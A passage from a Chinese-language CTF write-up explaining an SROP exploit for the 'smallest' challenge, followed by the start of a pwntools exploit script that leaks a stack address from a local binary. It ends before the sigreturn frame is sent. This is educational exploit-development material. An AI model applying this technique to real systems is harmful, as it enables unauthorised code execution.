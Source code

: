     此时栈情况如图<8>
    
    esp 指向我们写入的 syscall\_addr 地址，由于我们成功写入了 15 个字符，故此时的 eax 为 15，程序 ret 返回到 syscall\_addr 处进行系统调用，此时的系统调用号存储在 eax 正好是 15，调用 sigreturn，根据 frame 设定的结构，程序接下来会执行 system(execve)
    
    [![](assets/1701678439-7fe291ad1049dec00eac371ee4ba46d9.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129205213-1e4c11d6-8eb6-1.jpg)
    
-   完整 exp
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次 main_addr 是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #gdb.attach(p)
    #程序成功将三个地址写入栈中，此时执行 ret 后将程序返回至 main_addr，而 esp 指向第二个 main_addr
    #进行新一轮的 read，发送 3 的目的是将当前 esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的 0x04000B0 会变成 0x04000B3，这个地址正好对应的是 mov  edx, 400h，跳过了 xor rax,rax(将 rax 的值变成 0)，read 函数的特性，写入了一个字符后，将写入的长度存放在 rax，也就是为 1，接着执行到 ret，将程序返回至 0x04000B3，此时 esp 指向的是刚开始的第三个 main_addr
    #由于 rax 里面的值为 1，正好是 write 函数的系统调用号，也就意味着接下来执行的是 write 函数，而需要输出的首地址是 esp，此时第一个存放的是 main_addr，接下来的 8 到 16 就是我们需要得到的地址
    #输出地址后，程序执行 ret，此时程序又返回到 main_addr，程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    